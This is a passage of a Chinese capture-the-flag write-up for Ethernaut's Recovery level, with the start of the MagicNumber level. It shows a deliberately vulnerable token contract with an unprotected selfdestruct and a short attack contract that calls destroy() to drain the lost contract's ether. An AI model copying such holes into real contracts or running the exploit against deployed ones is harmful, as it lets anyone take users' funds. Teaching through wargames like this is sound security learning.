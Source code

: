 ```solidity
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        //调用地址代币数量= 转账数量*10
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
### 知识点
- RLP（Recursive Length Prefix）编码是以太坊中用于序列化数据的一种编码方式。它被广泛应用于以太坊的各个部分，包括交易、区块和状态数据。
- 新帐户的地址被定义为仅包含发送者和帐户随机数的结构的 RLP 编码的 Keccak 哈希的最右边 160 位。
- 新地址是由 creator address 及其 nonce 经过 RLP 编码后，再经 keccak256 杂凑后取最右边的 160 bits，即 keccack256(RLP_encode(address, nonce))
### 解题思路&过程
1. 使用 Etherscan 查找创建的合约地址，找到自己使用测试网的区块浏览器，然后输入Recovery合约对应的地址，最新的记录即为合约地址。
2. 然后部署攻击合约
 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract attack {
    address payable target;
    address payable myaddr;

    constructor(address payable _addr, address payable _myaddr) public {
        target=_addr;
        myaddr=_myaddr;
    }

    function exploit() public{
        target.call(abi.encodeWithSignature("destroy(address)",myaddr));
    }
}
```
3. 提交
### 第十八题 MagicNumber
### 题目
要解决这个关卡，您只需为 Ethernaut 提供一个 Solver，即一个使用正确的 32 字节数字响应 whatIsTheMeaningOfLife() 的合约。
解算器的代码需要非常小。非常非常小。非常非常小：最多 10 个字节。
### 提示
也许是时候暂时离开 Solidity 编译器的舒适区，手动构建这个 O_o。没错：原始 EVM 字节码。
### 源码
```solidity
// SPDX-License-Identifier: MIT
```